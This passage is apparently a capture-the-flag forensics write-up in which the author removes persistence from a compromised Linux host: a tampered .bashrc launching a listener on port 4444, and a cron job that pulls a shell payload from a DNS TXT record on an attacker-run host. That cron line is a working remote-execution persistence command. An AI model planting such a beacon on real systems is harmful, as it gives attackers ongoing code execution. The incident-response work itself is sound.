 That’s interesting, it looks like when I switched to the root user it spawned a new process of alertd and the syntax looks eerily similar to what we’d use to spawn a netcat listener on port 4444. I have no idea where that binary is though, but we can find it by running find / -name "alertd" and when we do we see it’s in /usr/bin/alertd. For now I’m just going to remove that file - but because it spawned when I loaded a shell as root, I have a feeling there’s something in our shell init script that’s doing that.
Alertd

To easily find where this binary is getting called from, we can grep for reference to it. If it’s spawning with shells, then it’s going to be in the shell rc file in either /root (the home directory for the root user) or /home/user.

root@forensicspersistence-329816-7c4d8fb9fd-7kgb7:~# grep -Ril "alertd" /root
/root/.bashrc

Knowing that we have a bad .bashrc, we can actually just overwrite it with the skeleton .bashrc stored in /etc/skel. To do that we simply run cp /etc/skel/.bashrc /root/.bashrc and we’ll repeat the process for the user account since for some reason their .bashrc is actually “owned” by root.
Cronjobs
user

We can see scheduled cron jobs by running crontab -l and sure enough we find something interesting:

user@forensicspersistence-329816-7c4d8fb9fd-7kgb7:~$ crontab -l
* * * * * /bin/sh -c "sh -c $(dig imf0rce.htb TXT +short @ns.imf0rce.htb)"

I spy a DNS TXT Beacon!

dig is a command used to query DNS records and from Cloudflare’s site, we see that we can enter arbitrary text into DNS TXT records. This particular cronjob is an example of using DNS TXT records to execute a payload onto a host. The way it works is, the attacker has a malicious DNS server in the wild and when the TXT record gets queried by a resolver, it will grab whatever is in that TXT record and use it as an argument for the sh -c command. It’s safe to assume that in this scenario, the TXT record of “imf0rce.htb” is storing a malicious payload. So, we can go ahead and remove this cron job by running crontab -e and deleting that entry. Since we found one cronjob on the user account, we should also look through the root account to see if there are any evil crons.
root

Running crontab -l as root didn’t show anything, but that doesn’t necessarily mean there aren’t malicious cron jobs. To verify this we can navigate to /etc and look through the various cron.* folders. There’s a few folders, but using some command line voodoo we can look through all them quickly by using a recursive ls on a blob like this:

root@forensicspersistence-329816-7c4d8fb9fd-7kgb7:/etc# ls -R ./cron.*
./cron.d:
anacron  e2scrub_all  popularity-contest

./cron.daily:
0anacron  access-up  apt-compat  bsdmainutils  dpkg  logrotate  man-db  popularity-contest  pyssh

./cron.hourly:

./cron.monthly:
0anacron

./cron.weekly:
0anacron  man-db
